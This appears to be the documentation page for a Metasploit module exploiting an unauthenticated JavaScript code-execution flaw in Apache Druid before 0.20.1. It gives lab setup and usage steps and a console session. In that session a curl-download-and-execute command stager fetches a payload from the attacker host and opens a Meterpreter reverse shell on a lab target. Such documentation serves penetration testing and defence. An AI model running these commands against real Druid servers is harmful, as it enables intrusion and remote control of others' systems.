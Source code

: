 ## Vulnerable Application

Apache Druid versions prior to `v0.20.1`

### Description

Apache Druid includes the ability to execute user-provided JavaScript code embedded in
various types of requests; however, that feature is disabled by default.

In Druid versions prior to `0.20.1`, an authenticated user can send a specially-crafted request
that both enables the JavaScript code-execution feature and executes the supplied code all
at once, allowing for code execution on the server with the privileges of the Druid Server process.
More critically, authentication is not enabled in Apache Druid by default.

The issue has been fixed in Apache Druid `v0.20.1`

This module has been tested successfully against the following versions:

Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.20.0 Debian 9.13 (Linux 5.4.0-1038-aws)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

A Docker container is available [here](https://hub.docker.com/r/fokkodriesprong/docker-druid)

To setup and run:

`docker pull fokkodriesprong/docker-druid`
`docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid`

For a manual setup:

* Download a vulnerable version of Apache Druid from [here](https://archive.apache.org/dist/druid/)
* Extract the downloaded archive
* Ensure a supported version of Java is installed on the system
* Start Apache Druid: `bin/start-nano-quickstart`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/apache_druid_js_rce`
4. Do: `set rhosts <ip>`
5. Do: `set lhost <ip>`
6. Do: `set lport/srvport <ip>` if necessary
7. Do: `run`
8. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### TARGETURI

The base path to the Apache Druid application. This is set to `/` by default.

## Scenarios

### Apache Druid 0.20.0-iap4.1 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of Apache Druid
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > check

[*] Attempting to execute 'echo XjUoa3Mw8z0UBQKnZ' on the target.
[*] cmd= /bin/sh`@~-c`@~echo XjUoa3Mw8z0UBQKnZ   var=RUmlsVEYh   name=rZXrMaTO
[+] 10.100.70.2:8888 - The target is vulnerable.
msf6 exploit(linux/http/apache_druid_js_rce) > exploit

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to execute 'echo hKJDyfi80sjuaSwfa38Skra' on the target.
[*] cmd= /bin/sh`@~-c`@~echo hKJDyfi80sjuaSwfa38Skra   var=MRCLndLkidu   name=eAYzmpMSm
[+] The target is vulnerable.
[*] Using URL: http://0.0.0.0:8080/t1yvMQyzxpNEIO
[*] Local IP: http://10.100.70.1:8080/t1yvMQyzxpNEIO
[*] Generated command stager: ["curl -so /tmp/OWmIlZjX http://10.100.70.1:8080/t1yvMQyzxpNEIO;chmod +x /tmp/OWmIlZjX;/tmp/OWmIlZjX;rm -f /tmp/OWmIlZjX"]
[*] cmd= /bin/sh`@~-c`@~curl -so /tmp/OWmIlZjX http://10.100.70.1:8080/t1yvMQyzxpNEIO;chmod +x /tmp/OWmIlZjX;/tmp/OWmIlZjX;rm -f /tmp/OWmIlZjX   var=xZpqsqSBeZ   name=qVwUlOBO
[*] Client 10.100.70.2 (curl/7.58.0) requested /t1yvMQyzxpNEIO
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 10.100.70.2
[*] Meterpreter session 4 opened (10.100.70.1:4444 -> 10.100.70.2:39486) at 2021-04-10 10:28:56 +0800
[*] Command Stager progress - 100.00% done (122/122 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```
